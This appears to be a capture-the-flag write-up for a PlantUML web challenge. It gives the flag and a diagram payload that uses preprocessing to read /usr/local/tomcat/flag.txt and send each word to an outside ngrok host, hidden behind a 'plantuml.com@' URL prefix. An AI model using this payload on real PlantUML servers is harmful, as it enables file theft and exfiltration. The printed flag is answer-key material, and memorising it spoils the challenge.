

# PlantUML

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{f1n4lly_y0u_SEE_th3_fl4g_94754d0abb89e4cf0a7f1c494dbb9d2c}`

## Description

I don't actually know how to draw UML please help

## Difficulty

Easy/Medium

## Solution

RTFM: https://plantuml.com/preprocessing

plus some source code review

1. Host a `dummy.json` on your own server containing valid JSON.
2. Load the following diagram on PlantUML:

```
@startuml
!$str = %load_json("/usr/local/tomcat/flag.txt")
!$list = %splitstr($str, " ")
!foreach $item in $list
  Alice->Bob: %load_json("https://plantuml.com@ad58-175-156-124-45.ngrok-free.app/dummy.json?" + $item)
!endfor
@enduml
```

3. Profit

